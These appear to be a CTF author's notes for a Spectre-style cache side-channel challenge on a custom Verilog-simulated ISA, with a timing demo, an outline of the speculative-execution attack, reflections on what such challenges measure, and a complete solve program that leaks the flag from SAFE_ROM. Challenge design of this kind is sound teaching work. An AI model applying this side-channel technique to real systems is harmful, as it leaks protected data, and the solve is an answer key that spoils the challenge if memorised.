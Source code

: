 Compile with: 
```bash
iverilog -g2012 -o nco ncore_tb.v
```
Try this program:
```
MOVFSI R0 R1 1
INC R3
INC R3
RDTM R1
MOVF R0 108
RDTM R1
MOVF R0 110
RDTM R1
MOVF R0 110
RDTM R1
```
It shows how cached accesses take 4 ticks, while uncached takes 8. I think it basically works, we just need a solve to make sure...

## The outline
Fool branch prediction to speculatively do a _MOVFSI R1,R0,IMM_ (which WONT get executed, otherwise you lock the core) now the result is in cache, try different Xs to load _MOVF X_ and time them, if it takes 4 clock, X is the value in _SAFE\_ROM\[IMM\]_.

## Epistemological Commentary
What does a challenge measure? How can we measure the skill of shellcoding? Say for a typical pwn problem, we are almost always measuring multiple skills and knowledge: familiarity with the underlying arch (x86/arm/etc) with the type of vuln, with the tools of the trade and so on. Then a curious mind may posit that we cannot ever distinguish a skill in isolation from other knowledge with a challenge. </br> 

I challenge this assumption, what if the ISA was not a known ISA? What if there wasn't much tools could do? In this challenge, it would be rather easy to find out it's supposed to be a cache side-channel, it's really so on the nose. Next would be to hatch a plan and shellcode the idea to fruition, with no known ISA and no specific tool able to help, it is kind of a pure challenge of shellcoding in some made-up ISA you just saw. It is not easy, and prone to mistakes, but give the verilog source, it also would demonstrate the value of debugging, and the tool is VVP/IVERILOG, not something that people would usually be doing in every CTF, with an exotic ting to it. & finally there is a cool factor, because of all the hype SPECTRE got, and hopefully people would come away with a sense of accomplishment after solving this.

## Solve Works!
It ain't pretty. It ain't pretty at all. But now it works, the following is a solve which does spit out the flag: 
```
FLUSH
INC R1
JGT R0 R1 0
JGT R0 R1 0
JGT R0 R1 0
JGT R0 R1 0
JGT R1 R0 16
MOVFSI R0 R3 0
RDTM R1
MOVFU R2 0
RDTM R2
SUB R2 R2 R1
MOVFU R1 58
JEQ R2 R1 34
INC R0
MOVT R0 19
JMP 16
MOVT R0 200
MOVF R1 35
INC R1
MOVT R1 35
MOVF R1 15
INC R1
MOVT R1 15
MOVF R1 56
MOVF R0 56
MOVT R0 19
JMP 0
00 00
04 00
```

